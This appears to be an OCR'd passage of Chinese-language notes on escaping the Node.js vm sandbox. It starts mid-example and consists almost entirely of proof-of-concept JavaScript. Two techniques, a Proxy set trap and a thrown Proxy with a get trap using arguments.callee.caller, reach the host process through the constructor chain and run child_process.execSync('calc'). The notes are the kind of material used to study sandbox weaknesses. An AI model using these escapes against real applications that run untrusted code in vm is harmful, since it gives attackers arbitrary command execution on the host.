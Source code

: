 ```javascript
const res = vm.runInContext(script, context);
console.log(res.aa)
```

利用set钩子

```javascript
const vm = require("vm");

const func =
    `new Proxy({}, {
        set: function(my,key, value) {
        (value.constructor.constructor('return process'))().mainModule.require('child_process').execSync('calc').toString()
    }
})`;
const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
const res = vm.runInContext(func, context);
res['']={};
```

异常抛出利用

```javascript
const vm = require("vm");

const script =
    `
    throw new Proxy({}, {
        get: function(){
            const cc = arguments.callee.caller;
            const p = (cc.constructor.constructor('return process'))();
            return p.mainModule.require('child_process').execSync('calc').toString();
        }
    })
`;
const sandbox = Object.create(null);
const context = vm.createContext(sandbox)
try{
    const res = vm.runInContext(script,context)
}catch (e) {
    console.log("" + e)
}
```

参考

[NodeJs vm沙箱逃逸](https://xz.aliyun.com/t/13427?time__1311=mqmxnDBQqeu4lxGg2Dy07ei%3DDk7GOKijeD&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Fsearch%3Fkeyword%3Dnodejs#toc-1)